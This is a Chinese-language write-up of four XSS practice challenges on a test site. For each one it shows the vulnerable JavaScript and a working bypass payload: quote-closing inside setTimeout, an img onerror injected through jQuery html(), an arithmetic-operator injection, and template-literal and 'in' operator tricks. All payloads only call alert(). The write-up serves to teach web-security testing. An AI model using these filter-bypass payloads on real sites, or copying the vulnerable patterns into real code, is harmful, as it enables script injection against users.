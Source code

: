 ## 参考

- [chrome下对js断点调试的方法汇总](https://www.toolmao.com/342.html)
- [一些BAT的XSS实例（一）](https://mp.weixin.qq.com/s/Nxjn_SUAfrB-K5z6YdlW8g)
- [一些BAT的XSS实例（二）](https://mp.weixin.qq.com/s/Q976z2ryfkEJQiSyl8aH8g)

### 1. http://px1624.sinaapp.com/test/xsstest1/

```html
<script type="text/javascript">
var x=location.hash;
function aa(x){};
setTimeout("aa('"+x+"')",100);
</script>
Give me xss bypass 1~
```

利用js函数的性质：
```js
function myFunction(p1, p2) {
    return p1 * p2;              // 该函数返回 p1 和 p2 的乘积
}

// 普通的计算乘积
myFunction(2,3)
6
// 执行任意js代码
myFunction(2,alert(77),3)
NaN
```

所以这里令x="#',alert(1),'"
即可拼接出：
```
setTimeout("aa('#',alert(1),'')",100);
```
参考setTimeout用法：
```
setTimeout("alert('对不起, 要你久候')", 3000 )
```
参考：https://www.runoob.com/w3cnote/javascript-settimeout-usage.html

准确地，
```
aa('#',alert(1),'')
```
本来aa函数期待1个参数，也可以通过闭合单引号传入三个参数。
或者
```
');alert(1)//
```
闭合前面的单引号和括号，然后执行任意js，然后使用//注释掉后面的代码。
![](imgs/20200618151017.png)

### 2. http://px1624.sinaapp.com/test/xsstest2/

```js
$("#xx")["html"]($("#xx")["text"]());
```
其中
```
$("#xx")["html"]()
```
相当于
```
$("#xx").html()
```
而$("#xx")["text"]()相当于$("#xx").text()

于是

```js
$("#xx")["html"]("<img src=x onerror=alert(1)>")
```
就相当于
```js
$("#xx").html("<img src=x onerror=alert(1)>")
```

其中的知识点为：
> text();设置或者获取所选元素的文本内容；
html();设置或者获取所选元素的内容（包括html标记）；

参考：https://www.cnblogs.com/fozero/p/5916878.html
- 当函数传参时，表示设置；
- 当函数参数为空时，表示选取。

![](imgs/20200618153337.png)

### 3. http://px1624.sinaapp.com/test/xsstest3/

前端的请求参数是px，
但是`<>"`被转义，但是`'`未被转义。
![](imgs/20200618160340.png)
但是在js函数中要确保两条语句都语法正确，否则则无法完成函数执行。
![](imgs/20200618155249.png)

通过`,` 和`;`以及`'`的组合发现无法确保两条语句同时语法正确。答案是利用`*`
完整payload：
```
http://px1624.sinaapp.com/test/xsstest3/?px=aaa%27*alert(77)*%27bbb
```
原来乘法中的被乘数也可以是xss的payload：
![](imgs/20200618155719.png)
当然不止乘法，加法、减法都是可以的。
![](imgs/20200618160001.png)

### 4. http://px1624.sinaapp.com/test/xsstest4/

前端展示差不多，但是后端代码不同了。参考答案是过滤了
```
<>+-*/&|~^%!?=
```
但是没过滤`'"`。这是与第3题的不同。

答案：
```
http://px1624.sinaapp.com/test/xsstest4/?px=%27;`;{alert(%271
```
![](imgs/20200618162412.png)
利用了js的模板字符串可以换行的特点，可以完成普通引号无法完成的语法。（避免中间的引号无法转义的问题）
参考：
https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/template_strings

还有一种解法是利用`in`或者`instanceof`这个语法，因为`in`和`instanceof`也是一种运算符，参考：
https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference
```
http://px1624.sinaapp.com/test/xsstest4/?px=%27in%20alert(1)%20in%27
```
![](imgs/20200618163739.png)
